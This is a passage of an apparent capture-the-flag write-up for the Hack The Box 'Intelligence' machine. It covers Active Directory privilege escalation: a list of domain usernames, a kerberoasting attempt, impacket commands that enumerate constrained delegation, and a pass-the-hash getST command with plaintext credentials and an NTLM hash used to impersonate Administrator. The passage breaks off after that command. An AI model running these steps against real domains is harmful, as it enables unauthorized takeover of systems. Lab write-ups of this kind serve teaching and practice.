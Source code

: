 ```shell
Brian.Morris
Anita.Roberts
Jean.Walter
Joel.Crawford
Veronica.Patel
Thomas.Wise
William.Lee
Darryl.Harris
David.Wilson
Teresa.Williamson
Richard.Williams
Brian.Baker
Thomas.Hall
Thomas.Valenzuela
John.Coleman
Stephanie.Young
Nicole.Brock
Kelly.Long
Travis.Evans
Kaitlyn.Zimmerman
Jennifer.Thomas
Michelle.Kent
Ian.Duncan
David.Reed
Scott.Scott
David.Mcbride
Samuel.Richardson
Jason.Wright
Jose.Williams
Danny.Matthews
krbtgt
Guest
Administrator
```


I attempted to identify kerberoastable users using Impacket’s `GetUserSPNs`, and the `krbtgt` user was, in fact, susceptible. Given the difficulty associated with cracking that particular account and the lack of success using the basic `rockyou.txt` file, I moved on to other escalation vectors.

Another option I pursued was to find users with delegation privileges to the Domain Controller. If any existed, I could attempt to get a password hash or ticket for that respective user and attempt to crack the password offline. With delegation rights to the Domain Controller, I could impersonate any user on the domain.
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ impacket-findDelegation -dc-ip 10.10.10.248 intelligence.htb/Ted.Graves:Mr.Teddy
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

AccountName  AccountType                          DelegationType                      DelegationRightsTo
-----------  -----------------------------------  ----------------------------------  -----------------------
svc_int$     ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  WWW/dc.intelligence.htb
```
The `Ted.Graves` user is in the `itsupport` Active Directory group, thereby allowing me to pull down the NTLM hash for that user. By passing the NTLM hash for the `svc_int` user, I used Impacket’s `getST` to impersonate the `Administrator` account and get a Kerberos ticket for the user.
```shell
┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ impacket-getST intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :5e47bac787e5e1970cf9acdb5b316239 -impersonate Administrator
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

```